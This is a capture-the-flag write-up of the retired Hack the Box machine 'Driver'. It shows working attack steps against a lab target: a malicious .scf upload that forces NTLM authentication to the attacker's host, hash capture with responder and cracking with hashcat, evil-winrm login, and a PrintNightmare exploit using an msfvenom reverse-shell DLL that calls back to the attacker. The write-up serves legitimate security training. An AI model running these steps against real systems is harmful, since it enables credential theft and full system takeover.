 ```yaml
---
title: Hack the Box Writeup - Driver
author: 6b6f6c6a61 
date: 2022-02-27
category: HTB
layout: post
---
```


# Driver Writeup
Driver was an easy Windows box from Hack the Box created by MrR3boot.
## Recon
I started by doing an nmap scan of the box:
```
sudo nmap -sS -p- 10.10.11.106
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-27 06:51 EST
Nmap scan report for 10.10.11.106
Host is up (0.033s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 105.22 seconds
```

I then looked at the http server first. You get prompted for basic auth credentials, but `admin`/`admin` works and gives us access to a Website called "MFP Firmaware Update Center". 

## Foothold
The most interesting part of the web page is a file upload under the "Firmware Updates" tab. I tried around with this upload for a bit and uploaded e.g. executables, as the site claims these should be tested. However after a time I gave up on this. As this is a Windows box an other option would be to trigger an NTLM connection using the file upload. I saw something similar on HtB in the past with an SQL injection, that you could exploit to get an NTLM connection.

We can trigger an NTLM connection in this case by uploading an `.scf` file. There is a blog post on [pentesterlab](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) about this. First I started responder using:
```
sudo responder -I tun0 --lm
```
Then I created an `.scf` file and uploaded it. The file I created looked as follows:
```
[Shell]
Command=2
IconFile=\\10.10.14.8\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
This gave me a hash:
```
[SMB] NTLMv2 Hash     : tony::DRIVER:3cf88c22c2b5dfe0:75CF7454B42FD9A156C2525353940DFF:010100000000000087E8256E9326D8017C77361926092FA000000000020000000000000000000000
```
Sadly this is no NetNTLMv1 Hash, however I was able to crack it using hashcat as the password was contained in rockyou.txt:
```
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```
As can be seen in the nmap scan, winrm is active on the box. So I used the cracked password with evil-winrm to get access to the machine:
```
evil-winrm -u tony -p liltony -i 10.10.11.106
```
At this point I got access to the user flag.

## Privilege escalation 

The box is vulnerable to PrintNightmare, which I looked as first as the machine did have a printer theme. I personally used [this](https://github.com/cube0x0/CVE-2021-1675) exploit and pretty much followed the instructions provieded there. So I installed it, generated a a dll using msfvenom as follows:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=12345 -f dll -o test.dll
```
I then uploaded this dll using evil-winrm and started a nc listener:
```
nc -lvp 12345
```
Afterwards I executed the exploit using:
```
python3 ./CVE-2021-1675.py ./tony:liltony@10.10.11.106 'C:\Users\tony\Documents\test.dll'
```
This gave me system shell and allowed me to read the root flag. 

After machine retired I watched ippsecs's [walktrough](https://www.youtube.com/watch?v=N2ahkarb-zI). One of the privilege escalations used in the video also is PrintNightmare, but with the [powershell script](https://github.com/JohnHammond/CVE-2021-34527) by John Hammond and Caleb Stewart. However there is a second way to escalate privileges using an exploit for a Ricoh printer driver for which an metasploit module seems to exist. 

Small sidenote: If you ever want to exploit PrintNightmare on a Windows 2008 system you can use [this](https://github.com/evilashz/CVE-2021-1675-LPE-EXP) exploit. Just remove the comment in the source code, so that the right path for Windows 2008 is used.. I had problems getting the powershell exploit to run on such a system before and this worked for me.

